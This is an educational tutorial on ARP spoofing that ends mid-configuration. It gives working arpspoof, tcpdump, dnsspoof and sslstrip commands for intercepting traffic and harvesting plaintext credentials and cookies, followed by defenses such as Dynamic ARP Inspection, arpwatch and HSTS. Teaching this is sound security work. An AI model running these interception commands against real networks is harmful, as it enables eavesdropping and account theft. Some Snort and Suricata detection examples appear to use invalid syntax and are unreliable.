

## What is ARP Spoofing?

ARP Spoofing is a network attack technique that exploits structural vulnerabilities in the ARP (Address Resolution Protocol), which was standardized through RFC 826 by the IETF in 1982. The attacker sends falsified ARP messages to the network to manipulate the victim's ARP cache table and intercept or modify normal communication flows. This attack is a form of Man-in-the-Middle (MITM) attack. It is possible because the ARP protocol prioritized efficiency over security during its design phase and did not include authentication or integrity verification mechanisms.

> **Educational Purpose and Ethical Use**
>
> This article is written for educational purposes to help network security professionals, system administrators, and security researchers understand the principles of ARP spoofing and establish appropriate defense measures. All hands-on exercises must be conducted only in network environments that you own or have explicit permission to test. Unauthorized intrusion or attacks on others' networks can result in prosecution under laws such as the Information and Communication Network Act and Personal Information Protection Act.

## ARP Protocol Operation Principles and Vulnerabilities

ARP (Address Resolution Protocol) is a protocol positioned between Layer 2 and Layer 3 of the OSI model. It is responsible for converting logical addresses (IP addresses) to physical addresses (MAC addresses) in IPv4 networks. ARP is essential because data frames in local networks such as Ethernet require the destination MAC address for transmission.

### ARP Operation Process

The basic operation process of ARP proceeds as follows.

1. **ARP Request Generation**: When the sending host knows the destination IP address but not the MAC address, it creates an ARP request packet and broadcasts it to all hosts on the local network using the broadcast address (FF:FF:FF:FF:FF:FF). This packet contains the request "Please tell me your MAC address if you have IP address X".

2. **ARP Reply Generation**: Only the host with that IP address responds to the ARP request. It sends an ARP reply packet containing its MAC address directly to the requester via unicast.

3. **ARP Cache Storage**: The host that receives the response stores the IP-MAC mapping information in its ARP cache table and reuses it for a certain period (typically 2-20 minutes). This improves network efficiency by eliminating the need to repeat ARP requests for communications to the same destination.

For detailed information about ARP protocol operation and packet structure, refer to [How the ARP Protocol Works](https://blog.injun.dev/how-arp-protocol-works/).

### Structural Vulnerabilities of ARP Protocol

The ARP protocol has the following fundamental security vulnerabilities. These design limitations enable ARP spoofing attacks.

**1. Absence of Authentication Mechanism**

The ARP protocol does not include any authentication mechanism to verify the sender's identity. Hosts receiving ARP replies have no way to confirm whether the response came from the legitimate owner. Consequently, falsified ARP replies arbitrarily created by attackers are processed identically to legitimate responses.

**2. Absence of Integrity Verification**

ARP messages lack integrity verification means such as digital signatures or Message Authentication Codes (MAC). Therefore, even if an attacker modifies the contents of an ARP packet, the receiver cannot detect it. This is the fundamental cause of ARP Cache Poisoning attacks.

**3. Acceptance of Unsolicited ARP Replies**

Most operating systems receive and process ARP replies that are sent arbitrarily without ARP requests (Gratuitous ARP or Unsolicited ARP). When receiving such replies, they automatically update existing ARP cache entries with new values. Attackers can manipulate the entire network's ARP cache simply by broadcasting false ARP replies.

**4. Limitations of State Management**

ARP cache is dynamically managed state information. It is automatically updated or deleted after a certain time (TTL, Time To Live). Attackers can maintain the attack state by continuously sending false ARP replies according to this update cycle. Victims find it difficult to distinguish between normal ARP cache updates and attacks.

**5. Broadcast-Based Communication**

ARP requests are transmitted via broadcast, so all hosts on the same network segment can receive and analyze ARP traffic. Attackers can observe normal ARP traffic to identify network topology and active host information. Based on this information, they can plan targeted ARP spoofing attacks.

## ARP Spoofing Attack Principles

ARP spoofing attacks proceed by the attacker sending falsified ARP messages to the network to manipulate the victim's ARP cache table. They can be classified into unidirectional spoofing and bidirectional spoofing depending on the target and scope of the attack. Each attack method has different purposes and effects.

### Unidirectional ARP Spoofing

Unidirectional ARP spoofing is an attack method that manipulates the ARP cache targeting only one side - either the victim host or the gateway. Although the attack scope is limited, it can be effectively used in specific scenarios.

**Victim Host Targeting Spoofing**

When an attacker sends false ARP replies to the victim host claiming "the MAC address corresponding to the gateway's IP address is the attacker's MAC address", the victim sends all packets intended for the gateway to the attacker. The attacker can eavesdrop on or modify this traffic before forwarding it to the actual gateway. In this case, response traffic from the gateway to the victim is delivered directly normally, so the victim may experience some asymmetric network latency.

```bash
# Spoof gateway IP targeting the victim
sudo arpspoof -i eth0 -t 192.168.1.11 -r 192.168.1.1
```

**Gateway Targeting Spoofing**

Conversely, when the attacker sends false ARP replies to the gateway claiming "the MAC address corresponding to the victim's IP address is the attacker's MAC address", the gateway sends all packets intended for the victim to the attacker. In this case, traffic from the victim to the gateway is delivered normally, but response traffic from the gateway to the victim passes through the attacker.

```bash
# Spoof victim IP targeting the gateway
sudo arpspoof -i eth0 -t 192.168.1.1 -r 192.168.1.11
```

Unidirectional spoofing can only intercept some traffic, so bidirectional spoofing is necessary for a complete man-in-the-middle attack.

### Bidirectional ARP Spoofing (Complete MITM Attack)

Bidirectional ARP spoofing is an attack method that simultaneously manipulates the ARP cache of both the victim host and gateway. It makes all bidirectional traffic between the two hosts pass through the attacker. This is the most effective method to implement a complete Man-in-the-Middle Attack.

The attacker deceives the victim by claiming "the gateway's MAC address is the attacker's" while simultaneously deceiving the gateway by claiming "the victim's MAC address is the attacker's". As a result, both the victim and gateway actually send packets to the attacker when communicating with each other. The attacker can eavesdrop, analyze, and modify all traffic in real-time before forwarding it to the destination.

```bash
# Execute both commands simultaneously for bidirectional spoofing
sudo arpspoof -i eth0 -t 192.168.1.11 -r 192.168.1.1 &
sudo arpspoof -i eth0 -t 192.168.1.1 -r 192.168.1.11 &
```



Bidirectional spoofing has the following advantages over unidirectional spoofing.

1. **Complete Traffic Visibility**: You can check both sending and receiving bidirectional traffic to understand the entire session context.
2. **Transparent Attack**: Both the victim and gateway perceive normal communication is taking place, making attack detection difficult.
3. **Real-time Modification Capability**: Since both requests and responses are intercepted, advanced attack techniques such as HTTP response modification and DNS spoofing can be applied.
4. **Session Hijacking**: By controlling bidirectional traffic, session cookies or authentication tokens can be stolen to completely take over the session.

### Maintaining ARP Spoofing Attack Persistence

ARP cache entries have different TTL (Time To Live) values depending on the operating system. Linux typically has 60-300 seconds, Windows has 120-300 seconds, and macOS has approximately 1200 seconds. Therefore, attackers must periodically retransmit false ARP replies before the cache expires to continuously maintain the attack state. Tools like arpspoof automatically perform these retransmissions to ensure attack continuity.

```bash
# arpspoof retransmits ARP packets every 1 second by default
# -r option automatically handles bidirectional spoofing
sudo arpspoof -i eth0 -t 192.168.1.11 -r 192.168.1.1
```

## Setting Up ARP Spoofing Lab Environment

To understand the principles of ARP spoofing and test defense techniques, hands-on practice in a controlled lab environment is essential. The following describes how to set up a safe and effective lab environment.

### Lab Environment Requirements

**Network Configuration**

- Attacker machine: Ubuntu 24.04 LTS (IP: 192.168.1.10, MAC: 00:0C:29:12:34:56)
- Victim machine: Windows 11 or Ubuntu 24.04 (IP: 192.168.1.11, MAC: 00:0C:29:AB:CD:EF)
- Gateway/Router: Home router or virtual router (IP: 192.168.1.1, MAC: AA:BB:CC:DD:EE:FF)
- Network: 192.168.1.0/24 subnet, all hosts located in the same broadcast domain

**Important Constraints**

1. **Same Subnet Requirement**: Since ARP is a broadcast-based protocol, the attacker and victim must be connected to the same physical network segment (same switch, same VLAN). ARP spoofing is not possible on different subnets or remote networks that traverse routers.

2. **Isolated Test Environment**: Exercises must be conducted in virtual networks isolated from the internet (VirtualBox NAT Network, VMware Host-only Network) or physically isolated test labs. Exercises on corporate networks or public networks can cause legal issues.

3. **Explicit Permission**: All exercise target systems must be systems you own or have explicit written test permission for. Unauthorized penetration testing can be prosecuted under Article 48 of the Information and Communication Network Act (Prohibition of Information and Communication Network Infringement Acts).

### Virtual Environment Configuration (Recommended)

The safest practice method is to configure a completely isolated virtual network using virtualization platforms such as VirtualBox, VMware, or KVM. The following is an example of lab environment configuration using VirtualBox.

**VirtualBox Network Settings**

1. In VirtualBox Manager, select `File > Preferences > Network > Add NAT Network`.
2. Create a new NAT network and set the network CIDR to `192.168.1.0/24`.
3. Disable DHCP and manually assign IP addresses.
4. In each virtual machine's network settings, select "NAT Network" and specify the network created above.
5. After booting the virtual machines, assign static IP addresses to the network interfaces.

Through this configuration, you can build a safe lab environment that is completely isolated from the host system and actual network while allowing virtual machines to freely communicate with each other.

### Essential Tool Installation

**Attacker Machine (Ubuntu 24.04)**

Install the dsniff package to perform ARP spoofing. This package includes various network attack and auditing tools such as arpspoof, dnsspoof, and urlsnarf.

```bash
# Update package repository and install dsniff
sudo apt update
sudo apt install -y dsniff

# Check arpspoof version
arpspoof -V
```

Install tcpdump and Wireshark for packet capture and analysis.

```bash
# Command-line packet capture tool
sudo apt install -y tcpdump

# GUI-based packet analysis tool (optional)
sudo apt install -y wireshark

# Add current user to wireshark group (enable capture without root)
sudo usermod -aG wireshark $USER

# Need to re-login to apply group changes
newgrp wireshark
```

**Victim Machine (Windows or Ubuntu)**

The victim machine does not require special tool installation. Only basic network commands are used to check the ARP cache.

Checking ARP cache on Windows:
```powershell
# View ARP table
arp -a

# View ARP table for specific interface only
arp -a -N 192.168.1.11

# Delete ARP cache (requires administrator privileges)
arp -d
```

Checking ARP cache on Ubuntu:
```bash
# View ARP table (old command)
arp -a

# Or use modern ip command
ip neigh show

# Delete ARP cache
sudo ip neigh flush all
```

## ARP Spoofing Attack Hands-On

Now we will practice actual ARP spoofing attacks step by step and verify the principles and effects of each stage.

### Stage 1: Check Network State Before Attack

Before starting the attack, check the ARP table and communication flow in the normal network state.

**Check Normal ARP Table on Victim Machine**

```bash
# Execute on victim machine (192.168.1.11)
$ ip neigh show
192.168.1.1 dev eth0 lladdr aa:bb:cc:dd:ee:ff REACHABLE
192.168.1.10 dev eth0 lladdr 00:0c:29:12:34:56 REACHABLE
```

The output confirms that the gateway (192.168.1.1) MAC address is normally mapped to `aa:bb:cc:dd:ee:ff`.

**Check Network Interface on Attacker Machine**

```bash
# Execute on attacker machine (192.168.1.10)
$ ip addr show eth0
2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc fq_codel state UP group default qlen 1000
    link/ether 00:0c:29:12:34:56 brd ff:ff:ff:ff:ff:ff
    inet 192.168.1.10/24 brd 192.168.1.255 scope global eth0

$ ip route show
default via 192.168.1.1 dev eth0
192.168.1.0/24 dev eth0 proto kernel scope link src 192.168.1.10
```

Confirm the attacker's MAC address (`00:0c:29:12:34:56`) and network interface name (`eth0`). This information is needed when executing the arpspoof command.

### Stage 2: Enable IP Forwarding

When the ARP spoofing attack succeeds, all of the victim's traffic passes through the attacker. At this time, if the attacker does not properly relay packets, the victim's network connection is completely cut off, causing an unintended Denial of Service attack.

To prevent this and perform a transparent man-in-the-middle attack, the Linux kernel's IP forwarding function must be enabled to make the attacker machine operate like a router.

```bash
# Check current IP forwarding status (0: disabled, 1: enabled)
cat /proc/sys/net/ipv4/ip_forward

# Temporarily enable IP forwarding (resets on reboot)
echo 1 | sudo tee /proc/sys/net/ipv4/ip_forward

# Or use sysctl command
sudo sysctl -w net.ipv4.ip_forward=1

# Permanent activation (persists after reboot)
echo 'net.ipv4.ip_forward=1' | sudo tee -a /etc/sysctl.conf
sudo sysctl -p
```

When IP forwarding is enabled, the attacker machine forwards received packets whose destination MAC address is not its own to the appropriate next hop by consulting the routing table. This allows communication between the victim and gateway to be maintained normally even when passing through the attacker.

### Stage 3: Execute Bidirectional ARP Spoofing

Now use the arpspoof tool to simultaneously manipulate the ARP cache of both the victim and gateway.

```bash
# Terminal 1: Spoof gateway to victim
sudo arpspoof -i eth0 -t 192.168.1.11 -r 192.168.1.1
```

The above command continuously sends false ARP replies to the victim (192.168.1.11) every second claiming "the MAC address of gateway 192.168.1.1 is the attacker's MAC address".

```bash
# Terminal 2: Spoof victim to gateway
sudo arpspoof -i eth0 -t 192.168.1.1 -r 192.168.1.11
```

The above command continuously sends false ARP replies to the gateway (192.168.1.1) every second claiming "the MAC address of victim 192.168.1.11 is the attacker's MAC address".

Alternatively, both processes can be executed simultaneously in the background.

```bash
# Execute bidirectional spoofing in background
sudo arpspoof -i eth0 -t 192.168.1.11 -r 192.168.1.1 > /dev/null 2>&1 &
sudo arpspoof -i eth0 -t 192.168.1.1 -r 192.168.1.11 > /dev/null 2>&1 &

# Check running arpspoof processes
ps aux | grep arpspoof

# Terminate processes when stopping attack
sudo killall arpspoof
```

### Stage 4: Verify ARP Cache Manipulation

To confirm the attack succeeded, query the ARP table again on the victim machine.

```bash
# Execute on victim machine
$ ip neigh show
192.168.1.1 dev eth0 lladdr 00:0c:29:12:34:56 REACHABLE
192.168.1.10 dev eth0 lladdr 00:0c:29:12:34:56 REACHABLE
```

If the gateway (192.168.1.1) MAC address has been falsified to the attacker's MAC address (`00:0c:29:12:34:56`), the attack has succeeded. Now all packets the victim sends to the gateway are actually delivered to the attacker.

For Windows victim:
```powershell
C:\> arp -a

Interface: 192.168.1.11 --- 0x8
  Internet Address      Physical Address      Type
  192.168.1.1           00-0c-29-12-34-56     dynamic
  192.168.1.10          00-0c-29-12-34-56     dynamic
```

### Stage 5: Capture and Analyze Traffic

Use tcpdump or Wireshark on the attacker machine to capture and analyze relayed traffic in real-time.

**Traffic Eavesdropping Using tcpdump**

```bash
# Capture all victim traffic (output in ASCII format)
sudo tcpdump -i eth0 -n -A host 192.168.1.11

# Filter and capture HTTP traffic only
sudo tcpdump -i eth0 -n -A 'tcp port 80 and host 192.168.1.11'

# Save traffic to file for later analysis
sudo tcpdump -i eth0 -w capture.pcap host 192.168.1.11

# Read and analyze captured file
tcpdump -r capture.pcap -n -A | less
```

Key option descriptions:
- `-i eth0`: Specify network interface to capture
- `-n`: Don't convert IP addresses to DNS names (faster capture)
- `-A`: Output packet payload as ASCII text (useful for analyzing text protocols like HTTP, SMTP)
- `-w capture.pcap`: Save captured packets to PCAP file
- `host 192.168.1.11`: Capture only traffic to/from specific host

**In-Depth Analysis Using Wireshark**

In GUI environments, Wireshark enables more intuitive and detailed packet analysis.

```bash
# Launch Wireshark (requires root privileges)
sudo wireshark

# Or launch with normal privileges if in wireshark group
wireshark
```

Useful display filters in Wireshark:
- `ip.addr == 192.168.1.11`: All traffic related to specific IP address
- `http`: Display HTTP protocol only
- `http.request`: Display HTTP requests only
- `http.request.method == "POST"`: Display POST requests only (useful for stealing login information)
- `tcp.flags.syn == 1`: TCP connection start packets (port scanning detection)
- `dns`: DNS queries and responses

**Example of Extracting Sensitive Information**

When the victim logs into an HTTP website, plaintext credentials can be seen in tcpdump output.

```bash
$ sudo tcpdump -i eth0 -n -A 'tcp port 80 and host 192.168.1.11' | grep -i -A 5 'POST'

POST /login HTTP/1.1
Host: example.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 29

username=victim&password=secret123
```

This demonstrates the serious security risks of websites not using HTTPS. Modern web applications must use TLS/SSL encryption to be protected from such attacks.

### Stage 6: Terminate Attack and Restore Normal State

When the exercise is finished, terminate the arpspoof processes and restore the victim's ARP cache to normal state.

```bash
# Terminate arpspoof on attacker machine
sudo killall arpspoof

# Disable IP forwarding
echo 0 | sudo tee /proc/sys/net/ipv4/ip_forward
```

Manually deleting the ARP cache on the victim machine will cause it to learn the correct MAC address through the normal ARP request-response process during the next communication.

```bash
# Delete ARP cache on victim machine (Ubuntu)
sudo ip neigh flush all

# Delete ARP cache on victim machine (Windows)
arp -d
```

Alternatively, waiting until the ARP cache TTL expires will automatically restore to normal state.

## Advanced Attack Techniques Enabled by ARP Spoofing

Once a man-in-the-middle (MITM) position is secured through ARP spoofing, various secondary attack techniques can be applied. These techniques pose serious threats across multiple layers of network security.

### HTTP Traffic Modification and Script Injection

Attackers can modify relayed HTTP responses in real-time to inject malicious JavaScript code or alter web page content. This enables phishing attacks, advertisement insertion, and malware distribution.

Tools like BetterCAP, mitmproxy, and bdfproxy can automatically detect and modify HTTP traffic. For example, BeEF (Browser Exploitation Framework) hooking scripts can be inserted into all HTTP responses to remotely control the victim's browser.

### DNS Spoofing (DNS Hijacking)

Performing DNS spoofing along with ARP spoofing allows changing the IP address of domains the victim tries to access to malicious servers controlled by the attacker. The dnsspoof tool can be used to forge DNS responses for specific domains.

```bash
# Create DNS spoofing rule file in /etc/hosts format
echo "192.168.1.50 www.bank.com" | sudo tee /etc/dnsspoof.conf

# Execute DNS spoofing along with ARP spoofing
sudo dnsspoof -i eth0 -f /etc/dnsspoof.conf
```

This causes the victim to be redirected to the attacker's prepared phishing site even when entering a legitimate bank website address. The victim finds it difficult to detect the attack because the URL appears normal.

### SSL Stripping

HTTPS websites often start with HTTP on initial access and redirect to HTTPS. Attackers can intercept this redirect to downgrade the HTTPS connection to HTTP. This is called an SSL stripping attack.

The sslstrip tool automatically converts HTTPS links to HTTP links. The attacker communicates with the victim via HTTP while communicating with the actual server via HTTPS, allowing them to intercept all data the victim transmits in plaintext.

```bash
# Execute SSL stripping attack (listen on port 10000)
sudo sslstrip -l 10000

# Redirect HTTP traffic to sslstrip with iptables
sudo iptables -t nat -A PREROUTING -p tcp --destination-port 80 -j REDIRECT --to-port 10000
```

Websites using HSTS (HTTP Strict Transport Security) headers have defense against this attack. However, if a user has never visited the site before, the HSTS policy is not stored in the browser and remains vulnerable.

### Session Hijacking

If web application session cookies are intercepted, the victim's authenticated session can be stolen. The attacker can inject the stolen cookie into their own browser to impersonate the victim and log into the victim's account.

Session cookies can be identified by extracting the `Set-Cookie` header from traffic captured with Wireshark or tcpdump. Browser extensions like Cookie Manager can be used to inject those cookies.

```bash
# Extract cookies from HTTP traffic
sudo tcpdump -i eth0 -n -A 'tcp port 80' | grep -i 'Cookie:'
```

Modern web applications can mitigate these attacks by setting `Secure` flag (transmit only over HTTPS), `HttpOnly` flag (block JavaScript access), and `SameSite` attribute (CSRF defense) on session cookies.

### Unencrypted Protocol Attacks

Legacy protocols without encryption such as FTP (port 21), Telnet (port 23), SMTP (port 25), POP3 (port 110), and IMAP (port 143) are completely exposed to ARP spoofing attacks. Usernames, passwords, email contents, etc. transmitted via these protocols are all intercepted in plaintext.

```bash
# Eavesdrop on FTP credentials
sudo tcpdump -i eth0 -n -A 'tcp port 21' | grep -i -E 'USER|PASS'

# Eavesdrop on SMTP email content
sudo tcpdump -i eth0 -n -A 'tcp port 25' | grep -i -A 20 'DATA'
```

Organizations should migrate these protocols to encrypted alternatives such as SFTP (SSH File Transfer Protocol), SSH, SMTP over TLS, POP3S, and IMAPS.

### VoIP Eavesdropping

When SIP (Session Initiation Protocol) based VoIP communication is not encrypted, voice traffic can be intercepted and recorded through ARP spoofing. Wireshark has built-in functionality to extract and play RTP (Real-time Transport Protocol) streams.

VoIP security requires applying encryption methods such as SRTP (Secure RTP), TLS-based SIP, and VPN tunneling.

## ARP Spoofing Defense Techniques

Since ARP spoofing exploits structural vulnerabilities of the protocol, complete protection is difficult with a single defense technique. A defense-in-depth strategy combining endpoint protection, network infrastructure security, detection and monitoring, and traffic encryption must be applied.


### Layer 1: Endpoint Protection

**Static ARP Entry Configuration**

Setting static ARP entries for critical systems (gateway, DNS server, domain controller, etc.) prevents the attacker's false ARP replies from overwriting the cache. Communication to those systems is protected from ARP spoofing.

```bash
# Add static ARP entry on Ubuntu/Linux
sudo arp -s 192.168.1.1 aa:bb:cc:dd:ee:ff

# Or use ip command (recommended)
sudo ip neigh add 192.168.1.1 lladdr aa:bb:cc:dd:ee:ff dev eth0 nud permanent

# Verify static entry (shown as PERMANENT)
ip neigh show

# Create script for automatic static ARP configuration at boot
echo '#!/bin/bash' | sudo tee /etc/network/if-up.d/static-arp
echo 'ip neigh add 192.168.1.1 lladdr aa:bb:cc:dd:ee:ff dev eth0 nud permanent' | sudo tee -a /etc/network/if-up.d/static-arp
sudo chmod +x /etc/network/if-up.d/static-arp
```

Adding static ARP entry on Windows:
```powershell
# Add static ARP entry
netsh interface ipv4 add neighbors "Ethernet" 192.168.1.1 aa-bb-cc-dd-ee-ff

# Verify static entry
arp -a

# Permanent static ARP entry (persists after reboot)
arp -s 192.168.1.1 aa-bb-cc-dd-ee-ff
```

Static ARP entries are effective but have the following limitations:
- Management burden: Must manually update static entries on all hosts when network changes
- Scalability issue: Very difficult to manage in large-scale networks
- Error possibility: Entering wrong MAC address completely blocks communication

Therefore, it is practical to apply static ARP only to a small number of core infrastructure components like the gateway.

**Using ARP Monitoring Tools**

Tools like arpwatch, XArp, and ArpON monitor network ARP table changes in real-time and alert administrators when detecting abnormal IP-MAC mapping changes.

```bash
# Install arpwatch (Ubuntu/Debian)
sudo apt install -y arpwatch

# Start monitoring specific interface
sudo arpwatch -i eth0

# Set email address for receiving notifications
sudo vim /etc/arpwatch/arpwatch.conf
# Add EMAIL="admin@example.com"

# Check arpwatch logs
sudo tail -f /var/log/arpwatch.log

# Log example: IP-MAC mapping change detection
# changed ethernet address 192.168.1.1 aa:bb:cc:dd:ee:ff (old) to 00:0c:29:12:34:56 (new)
```

arpwatch detects and logs the following events:
- `new activity`: New host discovered
- `new station`: MAC address never seen before
- `flip flop`: IP address rapidly switching between two different MAC addresses (clear sign of ARP spoofing)
- `changed ethernet address`: MAC address of existing IP changed

### Layer 2: Network Infrastructure Security

**Dynamic ARP Inspection (DAI)**

DAI is a feature supported by enterprise switches from Cisco, Juniper, HP, etc. The switch inspects all ARP packets and compares them against the DHCP snooping binding table or manually configured ARP ACL. ARP replies that don't match are automatically dropped, blocking ARP spoofing at the network level.

DAI configuration example on Cisco IOS switch:

```cisco
! Enable DHCP snooping (prerequisite for DAI)
Switch(config)# ip dhcp snooping
Switch(config)# ip dhcp snooping vlan 10,20,30
Switch(config)# no ip dhcp snooping information option

! Designate trusted ports (DHCP server connection port, uplink ports)
Switch(config)# interface GigabitEthernet0/1
Switch(config-if)# ip dhcp snooping trust
Switch(config-if)# exit

! Enable DAI
Switch(config)# ip arp inspection vlan 10,20,30

! Bypass DAI inspection on trusted ports
Switch(config)# interface GigabitEthernet0/1
Switch(config-if)# ip arp inspection trust
Switch(config-if)# exit

! Configure ARP ACL for static hosts (servers not using DHCP)
Switch(config)# arp access-list STATIC-HOSTS
Switch(config-arp-nacl)# permit ip host 192.168.1.100 mac host 0011.2233.4455
Switch(config-arp-nacl)# permit ip host 192.168.1.101 mac host 0011.2233.4456
Switch(config-arp-nacl)# exit

! Apply ARP ACL to VLAN
Switch(config)# ip arp inspection filter STATIC-HOSTS vlan 10

! Set DAI validation options (verify IP, MAC, destination MAC)
Switch(config)# ip arp inspection validate src-mac dst-mac ip

! Set DAI rate limiting (prevent DoS attacks)
Switch(config)# interface range GigabitEthernet0/2-24
Switch(config-if-range)# ip arp inspection limit rate 15
Switch(config-if-range)# exit

! Enable DAI logging
Switch(config)# ip arp inspection log-buffer entries 1024
Switch(config)# ip arp inspection log-buffer logs 1024 interval 10

! Verify DAI status
Switch# show ip arp inspection
Switch# show ip arp inspection interfaces
Switch# show ip arp inspection statistics vlan 10
```

The main advantages of DAI are:
- Centralized protection: Protects the entire network without individual host configuration
- Transparent operation: No additional configuration needed on endpoints
- High effectiveness: Blocks ARP spoofing attacks at network entry point

**DHCP Snooping**

DHCP snooping monitors DHCP traffic on the switch and only allows replies from trusted DHCP servers. It stores IP-MAC-port binding information to serve as the foundation database for DAI and IP Source Guard. It also defends against Rogue DHCP Server attacks.

```cisco
! Enable DHCP snooping globally
Switch(config)# ip dhcp snooping

! Enable DHCP snooping on specific VLANs
Switch(config)# ip dhcp snooping vlan 10,20,30

! Disable Option 82 (some DHCP servers don't support Option 82)
Switch(config)# no ip dhcp snooping information option

! Designate trusted port (legitimate DHCP server connection port)
Switch(config)# interface GigabitEthernet0/1
Switch(config-if)# ip dhcp snooping trust
Switch(config-if)# exit

! Save binding database to file
Switch(config)# ip dhcp snooping database flash:dhcp-snooping.db

! Verify DHCP snooping status
Switch# show ip dhcp snooping
Switch# show ip dhcp snooping binding
```

**Port Security**

Port security restricts MAC addresses that can connect to a switch port, blocking attackers from transmitting and receiving traffic with their MAC address. When an unauthorized MAC address is detected, the port can be automatically disabled (err-disable) or packets can be dropped.

```cisco
! Configure port security on access port
Switch(config)# interface GigabitEthernet0/2
Switch(config-if)# switchport mode access
Switch(config-if)# switchport port-security

! Set maximum allowed MAC addresses
Switch(config-if)# switchport port-security maximum 2

! Set violation action (shutdown: disable port, restrict: drop packets, protect: silently drop)
Switch(config-if)# switchport port-security violation shutdown

! MAC address learning method (sticky: save dynamically learned to configuration)
Switch(config-if)# switchport port-security mac-address sticky

! Or statically specify MAC address
Switch(config-if)# switchport port-security mac-address 0011.2233.4455
Switch(config-if)# exit

! Verify port security status
Switch# show port-security interface GigabitEthernet0/2
Switch# show port-security address

! Recover err-disable state
Switch# configure terminal
Switch(config)# interface GigabitEthernet0/2
Switch(config-if)# shutdown
Switch(config-if)# no shutdown
```

**VLAN Segmentation**

Dividing the network into multiple VLANs limits the ARP broadcast domain so attackers cannot attack hosts on other VLANs. Separating sensitive servers and general user networks minimizes the attack surface.

```cisco
! Create and configure VLANs
Switch(config)# vlan 10
Switch(config-vlan)# name USER_NETWORK
Switch(config-vlan)# exit

Switch(config)# vlan 20
Switch(config-vlan)# name SERVER_NETWORK
Switch(config-vlan)# exit

Switch(config)# vlan 30
Switch(config-vlan)# name MANAGEMENT_NETWORK
Switch(config-vlan)# exit

! Assign VLAN to ports
Switch(config)# interface range GigabitEthernet0/2-10
Switch(config-if-range)# switchport mode access
Switch(config-if-range)# switchport access vlan 10
Switch(config-if-range)# exit

! Allow inter-VLAN routing only through firewall
! This enables controlling and auditing traffic between VLANs
```

### Layer 3: Detection and Monitoring

**Intrusion Detection/Prevention Systems (IDS/IPS)**

Network IDS/IPS such as Snort, Suricata, and Zeek (formerly Bro) include signatures to detect ARP spoofing patterns. They can detect and alert or block abnormal ARP traffic rates, multiple MAC addresses for the same IP, gratuitous ARP abuse, etc.

Snort ARP spoofing detection rule examples:

```snort
# Detect different MAC addresses for same IP
alert arp any any -> any any (msg:"ARP Spoofing Detected - Multiple MAC for Same IP"; \
    arpspoof; classtype:network-scan; sid:1000001; rev:1;)

# Abnormally high ARP reply rate
alert arp any any -> any any (msg:"ARP Flood Attack"; \
    threshold: type both, track by_src, count 10, seconds 1; \
    classtype:denial-of-service; sid:1000002; rev:1;)

# Detect gratuitous ARP abuse
alert arp any any -> any any (msg:"Excessive Gratuitous ARP"; \
    arp_opcode 2; threshold: type threshold, track by_src, count 5, seconds 10; \
    classtype:network-scan; sid:1000003; rev:1;)
```

Enable ARP spoofing detection in Suricata configuration file:

```yaml
# /etc/suricata/suricata.yaml
arp:
  enabled: yes
  detect-anomalies: yes
  # Monitor ARP cache table
  track-arp-cache: yes
  # Detect MAC changes for same IP
  detect-ip-change: yes
```

**SIEM Integration and Correlation Analysis**

Integrating network security equipment with SIEM (Security Information and Event Management) systems like Splunk, ELK Stack (Elasticsearch, Logstash, Kibana), and Wazuh enables correlating various logs related to ARP spoofing (switch DAI logs, IDS alerts, firewall abnormal traffic, etc.) to understand the overall attack context and respond quickly.

**Network Behavior Analysis (NBA)**

Machine learning-based solutions (Darktrace, Vectra AI, etc.) that learn normal network traffic patterns and detect anomalies can automatically detect abnormal communication flows due to ARP spoofing, traffic route changes, and increased unencrypted traffic.

### Layer 4: Traffic Encryption

**VPN and IPsec Tunnels**

Encrypting all network traffic through VPN tunnels prevents attackers from reading or modifying packet contents even if they secure a man-in-the-middle position. End-to-end encryption can be implemented using VPN protocols such as OpenVPN, WireGuard, and IPsec.

WireGuard VPN configuration example (Ubuntu):

```bash
# Install WireGuard
sudo apt install -y wireguard

# Generate key pair
wg genkey | sudo tee /etc/wireguard/privatekey | wg pubkey | sudo tee /etc/wireguard/publickey

# Create server configuration file (/etc/wireguard/wg0.conf)
sudo tee /etc/wireguard/wg0.conf > /dev/null << EOF
[Interface]
PrivateKey = <SERVER_PRIVATE_KEY>
Address = 10.0.0.1/24
ListenPort = 51820

[Peer]
PublicKey = <CLIENT_PUBLIC_KEY>
AllowedIPs = 10.0.0.2/32
EOF

# Start VPN interface
sudo wg-quick up wg0

# Enable automatic start at boot
sudo systemctl enable wg-quick@wg0
```

**HTTPS/TLS Enforcement**

Enforcing HTTPS on all web applications and setting HSTS (HTTP Strict Transport Security) headers defends against SSL stripping attacks. Free TLS certificates can be obtained using Let's Encrypt.

HTTPS enforcement and HSTS configuration in Nginx:

```nginx
server {
    listen 80;
    server_name example.com;

    # Permanent redirect HTTP to HTTPS
    return 301 https://$server_name$request_uri;
}

server {
    listen 443 ssl http2;
    server_name example.com;

    # TLS certificate configuration
    ssl_certificate /etc/letsencrypt/live/example.com/fullchain.pem;
    ssl_certificate_key /etc/letsencrypt/live/example.com/privkey.pem;

    # HSTS header configuration (use HTTPS only for 1 year, include subdomains)
    add_header Strict-Transport-Security "max-age=31536000; includeSubDomains; preload" always;

    # Allow only latest TLS versions
    ssl_protocols TLSv1.2 TLSv1.3;
    ssl_ciphers HIGH:!aNULL:!MD5;
    ssl_prefer_server_ciphers on;
}
```

**802.1X Network Access Control**

802.1X is an IEEE standard port-based network access control protocol. It requires authentication before users or devices connect to the network. Integration with a RADIUS server can implement strong authentication through AD (Active Directory) credentials or digital certificates. Unauthenticated devices cannot access the network, so the attacker's opportunity to attempt ARP spoofing is blocked at the source.

802.1X configuration example on Cisco switch:

```cisco
! Enable AAA
Switch(config)# aaa new-model
Switch(config)# aaa authentication dot1x default group radius

! Configure RADIUS server
